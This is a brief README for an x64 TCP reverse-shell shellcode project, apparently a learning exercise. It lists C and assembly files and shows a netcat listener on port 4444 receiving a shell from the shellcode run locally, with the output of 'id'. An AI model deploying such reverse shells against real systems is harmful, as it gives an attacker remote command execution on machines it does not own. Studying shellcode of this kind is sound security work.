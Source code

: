 # TCP reverse shell x64 shellcode

Listing:
- `reverse.c` - TCP reverse shell C code
- `reverse.s` - asm rewrite of C code
- `reverse_sh.s` - adapted asm for shellcode

## Usage

Use `make (target) PROJECT=reverse`.

## Running

First terminal:
```
$ nc -nlvp 4444
Listening on [0.0.0.0] (family 2, port 4444)
Listening on 0.0.0.0 4444

```

Second terminal:
```
$ make skeleton PROJECT=reverse
...
$ out/skeleton 
Shellcode Length:  104

```

Again in the first terminal:
```
...
Connection received on 127.0.0.1 37992
id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)

```

